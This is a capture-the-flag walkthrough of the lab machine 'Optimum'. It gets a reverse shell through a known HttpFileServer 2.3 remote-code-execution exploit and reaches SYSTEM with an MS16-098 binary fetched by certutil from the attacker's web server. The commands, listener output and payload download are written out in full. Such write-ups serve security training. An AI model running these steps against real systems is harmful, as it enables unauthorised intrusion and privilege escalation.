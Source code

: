 # IP Address: 10.10.10.8

# Enumeration

```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.8 -t all

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

The target is running HttpFileServer (HFS) version 2.3. This software is vulnerable to remote code execution. Exploit code is available here: https://www.exploit-db.com/exploits/39161

# Exploitation

Download the exploit code and run against the target to get a reverse shell. Note: for the exploit, we need to copy netcat to our local web server and edit the local IP address and port values in the exploit code.

```
┌──(code㉿kali)-[~]
└─$ searchsploit hfs
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution ( | windows/remote/39161.py
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

┌──(code㉿kali)-[~]
└─$ searchsploit -m windows/remote/39161.py
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines

Copied to: /home/code/39161.py



┌──(code㉿kali)-[~]
└─$ sudo cp /usr/share/windows-binaries/nc.exe /var/www/html
[sudo] password for code: 

┌──(code㉿kali)-[~]
└─$ sudo service apache2 start
```

Original exploit code:
```
┌──(code㉿kali)-[~]
└─$ grep ip_addr -A 4 39161.py 
        ip_addr = "192.168.44.128" #local IP address
        local_port = "443" # Local Port number

```

Edited code:
```
┌──(code㉿kali)-[~]
└─$ grep ip_addr -A 4 39161.py                                                       
        ip_addr = "10.10.14.7" #local IP address
		local_port = "443" # Local Port number
		
```

Locally, in terminal window 1:
```
┌──(code㉿kali)-[~]
└─$ python 39161.py 10.10.10.8 80
```

Locally, in terminal window 2:
```
┌──(code㉿kali)-[~]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>

```

user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Optimum/images/Pasted%20image%2020211114204627.png)

# Privilege Escalation
Copy the output of systeminfo locally for analysis with windows-exploit-suggester.

```
┌──(code㉿kali)-[~/tools]
└─$ python2.7 windows-exploit-suggester.py --database 2021-11-15-mssb.xls --systeminfo systeminfo.txt

[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)

```

Searching google for MS16-098, find https://github.com/sensepost/ms16-098.git
Clone it and copy it to our local web server. 

```
┌──(code㉿kali)-[~]                                                                                                                                                                                                                          
└─$ git clone https://github.com/sensepost/ms16-098.git                                                                                                                                                                                      
Cloning into 'ms16-098'...                                                                                                                                                                                                                   
remote: Enumerating objects: 14, done.
remote: Total 14 (delta 0), reused 0 (delta 0), pack-reused 14
Receiving objects: 100% (14/14), 177.84 KiB | 1.22 MiB/s, done.                                                                                                                                                                              
Resolving deltas: 100% (2/2), done.                                                                                                                                                                                                          

┌──(code㉿kali)-[~]
└─$ sudo cp ms16-098/                                                                                                                                                                                                                        
bfill.exe  .git/      main.c     README.md  
┌──(code㉿kali)-[~]
└─$ sudo cp ms16-098/bfill.exe /var/www/html/sploit.exe
```

Pull it down on the target using certutil. Run it.

```
C:\Users\kostas\Desktop>certutil -urlcache -split -f "http://10.10.14.14/sploit.exe
certutil -urlcache -split -f "http://10.10.14.14/sploit.exe
****  Online  ****
  000000  ...
  088c00
CertUtil: -URLCache command completed successfully.

C:\Users\kostas\Desktop>sploit.exe
sploit.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system

```

# Proof
root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Optimum/images/Pasted%20image%2020211115195150.png)
